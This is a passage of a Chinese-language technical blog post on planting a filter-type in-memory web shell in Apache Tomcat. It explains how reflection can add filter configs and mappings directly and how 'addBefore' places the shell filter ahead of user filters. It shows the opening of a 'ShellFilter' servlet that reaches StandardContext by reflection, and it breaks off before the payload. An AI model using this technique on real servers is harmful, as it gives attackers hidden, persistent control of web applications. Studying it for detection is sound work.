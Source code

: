 ![](img/2023-01-28-17-34-56.png)
#### 实现代码
上述的实现思路知道原理后其实很多地方可以直接使用反射来修改`filterConfigs`和`FilterMaps`变量,而不用再分别去调用相关方法添加相关对象,更加简洁.  
几个关键点:
1. 使用反射添加的话就不必考虑`addMappingForUrlPatterns`中对运行状态的判断了
2. 添加FilterMap的时候,由于FilterMaps对象是一个ContextFilterMaps类,而该类是StandardContext对象的私有内部类,通过反射无法显式得到该属性的类型,无法直接强制转换,可以通过反射得到其相关add方法来添加FilterMap.
3. ContextFilterMaps类有两个addFilter方法,使用`addBefore`則是将该Filter添加在常规Mapping映射的Filter前面,一般来说就是在用户自定义filter的前面了,而不必再对filterMaps属性手动调换位置. 
```java
package org.example.Servlets;

import org.apache.catalina.core.ApplicationFilterConfig;
import org.apache.catalina.core.StandardContext;
import org.apache.tomcat.util.descriptor.web.FilterDef;
import org.apache.tomcat.util.descriptor.web.FilterMap;

import javax.servlet.*;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Method;
import java.util.HashMap;

public class ShellFilter extends HttpServlet {
    @Override
    protected void doGet(HttpServletRequest req, HttpServletResponse resp) throws IOException {
        ServletContext servletContext = req.getServletContext();
        StandardContext o = null;
        //如果已有则避免重复添加
        if (servletContext.getFilterRegistration("shellFilter") != null) {
            return;
        }
        while (o ==null) {
            try {
                Field f = servletContext.getClass().getDeclaredField("context");
                f.setAccessible(true);
                Object ob = f.get(servletContext);
                if (ob instanceof ServletContext) {
                    servletContext = (ServletContext) ob;
                } else if (ob instanceof StandardContext) {
                    o = (StandardContext) ob;
                }
            } catch (NoSuchFieldException | IllegalAccessException e) {
                throw new RuntimeException(e);
            }
        }
```